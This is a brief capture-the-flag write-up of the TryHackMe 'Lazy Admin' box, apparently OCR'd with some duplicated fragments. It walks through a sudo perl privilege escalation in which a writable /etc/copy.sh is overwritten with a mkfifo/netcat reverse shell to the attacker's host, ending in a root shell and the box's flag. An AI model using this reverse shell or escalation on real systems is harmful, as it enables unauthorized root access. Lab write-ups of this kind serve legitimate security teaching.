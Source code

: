 nmap -A -T4 -p- (IP)

dirsearch
gobuster
dirb

## tryhackme lazy-admin box - sudo -l - perl priv-esc

```
sudo -l
```

```

www-data@THM-Chal:/home/itguy$ sudo -l sudo -l Matching Defaults entries for www-data on THM-Chal: 		env_reset, mail_badpass, 		secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  User www-data may run the following commands on THM-Chal: 		(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

After checking the file `backup.pl` we can see that it is running this:

```
cat /home/itguy/backup.pl #!/usr/bin/perl  system("sh", "/etc/copy.sh");`
```

We check privelages for the copy.sh file and it turns out that we can write to it.

We add a reverse shell to the file and execute it as root and we get a shell.


```
````www-data@THM-Chal:/home/itguy$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc xx.xx.xx.xx 1234 >/tmp/f" > /etc/copy.sh < -i 2>&1|nc xx.xx.xx.xx 1234 >/tmp/f" > /etc/copy.sh www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl sudo /usr/bin/perl /home/itguy/backup.pl`
```

And we setup a listener on our box and we get a connection!


```
kali@kali:~/tryhackme$ nc -nlvp 1234 listening on [any] 1234 ... connect to [10.9.36.51] from (UNKNOWN) [10.10.87.188] 59192 # whoami root # id uid=0(root) gid=0(root) groups=0(root) # cd /root # cat root.txt THM{6637f41d0177b6f37cb20d775124699f}
```

